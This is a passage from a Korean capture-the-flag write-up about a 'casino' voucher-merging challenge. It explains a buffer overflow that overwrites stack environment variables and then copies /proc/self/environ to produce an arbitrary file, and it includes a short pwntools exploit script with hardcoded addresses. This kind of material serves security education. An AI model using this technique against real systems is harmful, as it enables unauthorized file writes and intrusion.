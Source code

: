 ![Merge voucher](/assets/img/posts/HS2024-1/cg_casino/merge_voucher.png)

Merge voucher 함수를 살펴보면, old_voucher 파일에 있는 데이터를 0x1000 크기만큼 new_voucher로 복사하고 old_voucher 파일은 삭제한다.

Buffer overflow를 통해 환경변수에 있는 값을 수정 할 수 있다.

`/proc/{pid}/` 아래에 있는 파일들 중, 본 문제에서는 `environ`에 충분한 공간이 있으므로 `/proc/{pid}/environ`을 활용했다.

환경변수가 저장된 영역 (스택의 제일 뒷부분)을 원하는 값으로 덮고, `/proc/{pid}/environ`를 읽어서 복사하면 원하는 내용의 파일을 만들 수 있다.


```python
from pwn import *

def merge_voucher(old_voucher: bytes):
    p.sendlineafter(b'> ', b'2')
    p.sendline(old_voucher)

new_name = 0x7fffffffdf50
environ = 0x7fffffffe276

p = remote(HOST, PORT)

file_data = b'File Wrtie Success!\n'
payload = b'A' * (environ - new_name)
payload += file_data
put_voucher(payload)
put_voucher(b'myfile')
merge_voucher(b'/proc/self/environ'.rjust(0x20, b'/'))
```
